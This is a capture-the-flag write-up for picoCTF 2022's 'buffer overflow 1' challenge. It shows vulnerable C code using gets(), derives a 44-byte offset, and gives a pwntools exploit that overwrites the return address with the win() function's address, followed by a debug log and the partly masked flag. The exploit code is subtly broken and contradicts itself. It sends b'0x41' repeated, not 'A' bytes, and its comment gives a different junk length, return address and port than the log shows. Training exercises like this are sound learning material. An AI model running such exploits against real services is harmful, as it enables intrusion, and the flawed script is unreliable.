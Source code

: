 # buffer overflow 1

Tags: picoCTF 2022, Binary Exploitation

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 200 points |

## Description

Control the return address  
Now we're cooking! You can overflow the buffer and return to the flag function in the program.  
You can view source here. And connect with it using nc saturn.picoctf.net 51768  

## Solve

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

The binary security mechanisms are as follows:

```bash
$ checksec.sh --file vuln
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   vuln
```

In my opinion, the flow is main() -> vuln() -> win(). If the get of vuln() overflows, processing can proceed as described above.

The distance from buf to the return address is -0x02c, which is 44 bytes.

![](<./images/CleanShot 2024-04-17 at 20.43.58.png>)

Overflow buf and overwrite return address. The offset to the return address is 44 bytes.

function win() address is 0x080491f6.

![](<./images/CleanShot 2024-04-17 at 20.48.36.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 44 # Junk
payload += p32(0x080491f6) # Return address
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 62804

p = remote(host, port)

p.recvline()

payload = b''
payload += b'0x41' * 44 # Junk
payload += p32(0x080491f6) # Return address

p.sendline(payload)

'''
When send payload, the stack is as follows.
------------------------------------------------------
|           Junk 112 bytes, b'0x41' * 44             | <- Offset
------------------------------------------------------
|    Return address to win() 4 bytes, 0x08049296     | <- EIP
------------------------------------------------------
'''

p.recvall()
```

Run the exploit.

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 62804: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f6 91 04 08  │AAAA│AAAA│AAAA│····│
    00000030  0a                                                  │·│
    00000031
[+] Receiving all data: Done (100B)
[DEBUG] Received 0x40 bytes:
    b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
[DEBUG] Received 0x24 bytes:
    b'picoCTF{addr3ss3s_ar3_3asy_********}'
[*] Closed connection to saturn.picoctf.net port 62804
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_********}
```